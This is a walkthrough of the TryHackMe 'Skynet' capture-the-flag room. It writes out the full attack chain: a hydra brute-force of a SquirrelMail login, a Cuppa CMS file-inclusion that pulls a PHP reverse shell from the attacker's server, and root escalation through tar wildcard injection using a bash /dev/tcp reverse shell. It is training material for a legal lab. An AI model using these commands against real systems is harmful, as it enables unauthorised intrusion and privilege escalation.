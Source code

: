 ```yaml
---
slug: skynet-walkthrough
title: TryHackMe - Skynet - Walkthrough
authors: bw
tags: [learning, skynet, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Skynet][skynet]. Let’s get started!

# Deploy and Compromise the machine
Since we don’t know anything about this machine, let’s start with an nmap scan! The command I used was: `nmap -sC -sV -oN nmap.txt <machine_ip>`

![s1](/src/img/thm/skynet/s1.webp)

We can see that we have `ssh`, `http`, `pop3`, `smb`, and `imap` open. We can immediately eliminate `ssh` as an attack vector, so we need to focus on the others. First answer is asking for a password to an email, so let’s start by looking at the website.

![s2](/src/img/thm/skynet/s2.webp)

We don’t see much here. Let’s run a gobuster scan in order to gather some directories. I used this command: `gobuster dir -u http://10.10.8.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

gobuster finds a few directories, however we aren’t able to access them. We get a **Forbidden** message. I will let gobuster continue running in the background, but let’s checkout the smb avenue.

If we use the `smbclient` we see the following (Hit **Enter** when prompted for a password):

![s3](/src/img/thm/skynet/s3.png)

We definitely see some interesting share’s here. We have a possible username: milesdyson. Lets checkout that share: `smbclient \\\\10.10.8.13\\milesdyson` 

Unfortunately, we don’t have access. Instead, let’s try the `anonymous` share.

We are in! We see `attention.txt` and `logs`. Run: `get attention.txt` to download the file.

![s4](/src/img/thm/skynet/s4.png)

Hmm…that’s interesting! Maybe the logs caught some people’s passwords? Let’s see!

`cd` into the logs directory, and we see 3 files. The only one that has any date (due to the size) is `logs1.txt`. Let’s download that and take a look!

![s5](/src/img/thm/skynet/s5.png)

This looks very promising!! This looks like it could be some passwords? We could use this as a wordlist in `hydra` if we can find a login page anywhere. Let’s check back with `gobuster`.

We see one new entry `/squirrelmail`. Let’s see if we can reach this page!

![s6](/src/img/thm/skynet/s6.webp)

Success!! Now we “think” we already know a username: `milesdyson`, but we don’t know his password. We could try each entry in that list one-by-one, but that might take some time. Let’s try to use hydra against the login. Format your `hydra` like the following:

```bash
hydra -l milesdyson -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'
```

If you are unsure as to what those mean, or how to find them, read this article on the topic: here. Our command will be the following:

```bash
hydra -l milesdyson -P log1.txt 10.10.8.13 http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

![s7](/src/img/thm/skynet/s7.webp)

Perfect! Our first answer! Let’s login to the mail! If we look at the emails we find a **Samba Password reset** email.

![s8](/src/img/thm/skynet/s8.png)

After looking around more, there doesn’t seem to be anything else. Let’s login to the `milesdyson` samba share using that password!

`smbclient -U milesdyson \\\\10.10.8.13\\milesdyson`

When we `ls` the share, we see a few items in there. One that sticks out to me is the notes directory.

When we look at the notes directory, there are a lot of files in it, but which one is important?? `get important.txt`

![s9](/src/img/thm/skynet/s9.png)

There is our next answer! Now we can navigate to that directory.

![s10](/src/img/thm/skynet/s10.webp)

Hmm…not much here. But we did see a mention of `CMS` in the `important.txt` file. Let’s run a gobuster scan against this URL:

`gobuster dir -u http://10.10.8.13/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Eventually, we get back an `/administrator` page. Navigate to that page.

![s11](/src/img/thm/skynet/s11.webp)

We see it is using **Cuppa CMS**. Let’s see if there are any exploits for this in `searchsploit`.

`searchsploit cuppa`
`cat /usr/share/exploitdb/exploits/php/webapps/25971.txt`

Reading through, we get our third answer. Now let’s use the exploit!

First, we need to know how we can use a file in order to get a shell on a machine. In this case, we know this is using .php. Let’s use `php-reverse-shell.php`! This can be found [here][php-rev-shell]. Make sure to change the parameters to your machine and IP you will use to listen for the reverse shell!

![s12](/src/img/thm/skynet/s12.png)

Now we need to start a http server on our machine in the folder where the reverse shell file is located: `python3 -m http.server 80`

Start a netcat listener on the specified port: `nc -nvlp 1234`

Then curl or navigate to the following url:

`http://10.10.8.13/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<thm_tun0_ip>:80/php-reverse-shell.php`

When you navigate to your terminal with the netcat listener, you should see a shell! Let’s look for the user flag.

![s13](/src/img/thm/skynet/s13.png)

Now we need to escalate our privileges for the root flag! Before we do anything else, let’s get into a better shell using python:

`python -c 'import pty; pty.spawn("/bin/bash")'`

Let’s see if we have any sudo permissions: `sudo -l`, nope! Maybe there are `cron` jobs running as root?

`cat /etc/crontab`

We see there is a `backup.sh` that runs every minute! There’s our target. Let’see what’s in there: `cat /home/milesdyson/backups/backup.sh`

![s14](/src/img/thm/skynet/s14.png)

We need to use this cron job to gain a shell. I wonder if there is a way to execute a shell from tar? Let’s check out [GTFObins][gtfo]. We can search for the `tar` command, and we see a few options. Let’s try the first one:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

We can use this to get a shell, but we need to create some things first:

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<thm_tun0_ip>/1235 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Now we can open up a `netcat` listener to get the reverse shell: `nc -nvlp 1235`
**NOTE:** This could take up to a minute for the shell to come through

We have a root shell! Let’s find our root flag!

![s15](/src/img/thm/skynet/s15.png)

# References
[TryHackMe][thm] | [Skynet Room][skynet] | Hydra Brute-Force Login | [php-reverse-shell.php][php-rev-shell] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[skynet]: https://tryhackme.com/why-subscribe?roomCode=skynet
[php-rev-shell]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io